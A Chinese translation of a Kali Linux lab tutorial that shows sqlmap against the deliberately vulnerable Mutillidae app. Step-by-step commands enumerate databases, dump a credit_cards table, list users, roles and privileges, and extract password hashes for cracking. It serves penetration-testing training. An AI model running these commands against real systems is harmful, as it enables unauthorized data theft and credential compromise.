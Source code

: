 # SQLMAP–从易受攻击的 Web 表单中枚举数据库和用户

> 原文：<https://kalilinuxtutorials.com/sqlmap2/>

Sqlmap 是一个数据库评估工具，pentesters &安全研究人员可以用它来列举各种类型的数据库。Sqlmap 自动化了普通的&高级 sql 注入技术，并在常规表单上执行它们。请参考关于 SQLMAP 的[介绍的文章。](http://kalilinuxtutorials.com/wa/sqlmap-introduction-automation-of-sql-injection/)

以下实验课程是上一节 sqlmap 课程的延续。所以我建议你在继续写这篇文章之前，先看看那篇文章，除非你知道自己在做什么。[点击此处](http://kalilinuxtutorials.com/wa/sqlmap-introduction-automation-of-sql-injection/)阅读第一篇文章。

## 实验 1:数据库枚举

在本实验中，我们从易受攻击的 web 应用程序中枚举和转储整个数据库。为此，我们需要 URL 或复制请求到我们正在尝试 sql 注入的表单。在本实验中，我使用的是保存在文件中的请求。参考[此处](http://kalilinuxtutorials.com/wa/sqlmap-introduction-automation-of-sql-injection/)看如何拿这个。这里的场景与参考链接中描述的相同。

### 步骤 1:获取所有数据库

在获取请求并保存为文件后，我们可以继续使用 sqlmap。如果你发现网页不容易受到攻击，抓取横幅不会给出确切的结果。因此，由于页面易受攻击，让我们使用 sqlmap 执行一些攻击。

```
Command: sqlmap -r mut-sqlmap-bypassauth-post.req <replace this with your filename> --dbs

```

[![sqlmap](img/ef51f59b2a56f4f552787a78a1b9c6db.png)](http://kalilinuxtutorials.com/wa/sqlmap2/attachment/sqlmap2-1/)

Performing DB Enumeration

输出显示远程服务器中的数据库列表。

[![sqlmap](img/edf2ab5d254b7ade9002b419e9943b50.png)](http://kalilinuxtutorials.com/wa/sqlmap2/attachment/sqlmap2-2/)

Databases in the remote server

现在我们有了一个数据库列表，我们可以专注于其中的一个。为此，我关注一个名为 Mutillidae 的数据库。

### 步骤 2:从选定的数据库中获取表。

```
Command: sqlmap -r mut-sqlmap-bypassauth-post.req -D mutillidae <replace with your db name> --tables
```

[![sqlmap](img/dfa3322e7f70c0244dac9540fd1ce09a.png)](http://kalilinuxtutorials.com/wa/sqlmap2/attachment/sqlmap2-3/)

Enumerating Tables

现在我们可以看到表格填充

[![sqlmap](img/38a6464133d386c4ac313a0956e18f89.png)](http://kalilinuxtutorials.com/wa/sqlmap2/attachment/sqlmap2-4/)

Tables Populating

[![sqlmap](img/a90437a99819ee6c825b61b5efef3362.png)](http://kalilinuxtutorials.com/wa/sqlmap2/attachment/sqlmap2-5/)

Tables Populating

现在我们有了驻留在远程服务器中的表的列表，我们可以将其中任何一个表转储到我们的系统中。所执行操作的所有细节都由 sqlmap 自动存储。现在，让我们专注于名为 credit_cards 的表。

```
Command: sqlmap -r mut-sqlmap-bypassauth-post.req -D mutillidae <replace with your db name> -T credit_cards <replace with your table> --dump
```

[![sqlmap](img/5bedb4aa99cc23104338cb5bcf42aeb0.png)](http://kalilinuxtutorials.com/wa/sqlmap2/attachment/sqlmap2-6/)

Dumping the target table

现在我们可以在屏幕上看到表格，一个包含表格内容的文件将自动生成。

[![sqlmap](img/82edb24a2bb3e9d236f0bc552afc6d38.png)](http://kalilinuxtutorials.com/wa/sqlmap2/attachment/sqlmap2-8/)

Table Contents

## 实验 2:用户枚举

在本实验中，我们使用相同的请求文件来枚举数据库用户。Sqlmap 可以检测数据库服务器中的用户，以及他们的角色和权限。

```
Command: sqlmap -r mut-sqlmap-bypassauth-post.req --users
```

[![sqlmap](img/9fe377d2488a09d48ec9c94f897d9cae.png)](http://kalilinuxtutorials.com/wa/sqlmap2/attachment/sqlmap2-9/)

Enumerating Users

[![sqlmap](img/6aa7fa0c277de8389e75373bbb2f5d92.png)](http://kalilinuxtutorials.com/wa/sqlmap2/attachment/sqlmap2-10/)

A list of users present on the Database server

现在我们必须从屏幕上显示的列表中选择一个目标用户。对于本教程，我将选择 root 用户。现在让我们看看分配给用户 root 的角色是什么。当然，root 用户将拥有所有角色和权限，但是您可以用其他用户的命令来代替。

```
Command: sqlmap -r mut-sqlmap-bypassauth-post.req -U root<replace with your username> --roles
```

[![sqlmap](img/f4d70fbbec6da64bbbc8ac1ec05e5ee9.png)](http://kalilinuxtutorials.com/wa/sqlmap2/attachment/sqlmap2-13/)

Enumerating Roles

[![sqlmap](img/51fbebb5517eaa10a4e5df7cdf7faac2.png)](http://kalilinuxtutorials.com/wa/sqlmap2/attachment/sqlmap2-14/)

Roles of root user being displayed

好了，现在让我们看看用户的权限

```
Command: sqlmap -r mut-sqlmap-bypassauth-post.req -U root<replace with your username> --privileges
```

[![sqlmap](img/dd593016dffd4435de1fa9b01f92665e.png)](http://kalilinuxtutorials.com/wa/sqlmap2/attachment/sqlmap2-11/)

Enumerating Privileges

[![sqlmap](img/a4d22ca3446ed1fc5566a2f1c55eff7d.png)](http://kalilinuxtutorials.com/wa/sqlmap2/attachment/sqlmap2-12/)

List of Privileges for root user

现在最好的部分，让我们看看我们是否能得到用户的密码。是的，sqlmap 也能为您做到这一点，方法如下:

```
Command: sqlmap -r mut-sqlmap-bypassauth-post.req -U root<replace with your username> --passwords
```

[![sqlmap](img/7ef0499c831057b8ad0fcb5be4880b06.png)](http://kalilinuxtutorials.com/wa/sqlmap2/attachment/sqlmap2-15/)

Enumerating Passwords

在这个操作中，sqlmap 提出了几个新问题。一个是你是否想把散列存储在一个临时文件中。还有一个就是你要不要马上做一个基于字典的攻击。可以根据自己的意愿回答。

[![sqlmap](img/10cd4f3879192ac47d62f6649ca5dc2c.png)](http://kalilinuxtutorials.com/wa/sqlmap2/attachment/sqlmap2-16/)

Sqlmap Prompts

最后，你来的目的，密码散列。有了这个恢复，我们可以尝试对任何密码破解像 JTR 或在线工具等。

[![sqlmap](img/eee11355a28cf7ee42dec28a69c22ad6.png)](http://kalilinuxtutorials.com/wa/sqlmap2/attachment/sqlmap2-17/)

Password hashes being dumped to screen

现在，您已经了解了 sqlmap 如何帮助您自动化 SQL 注入，以及它的功能和特性。所有这些都可以在执行 Web 应用程序安全测试时广泛地付诸实践。

由于 SQLi 是 web 应用程序中最常见的漏洞，您肯定可以使用 sqlmap 来检查各种各样的安全问题&快速执行各种测试。正如我前面说过的，我想重复这句话“事实上，没有 sqlmap 就没有 Web 应用程序测试”。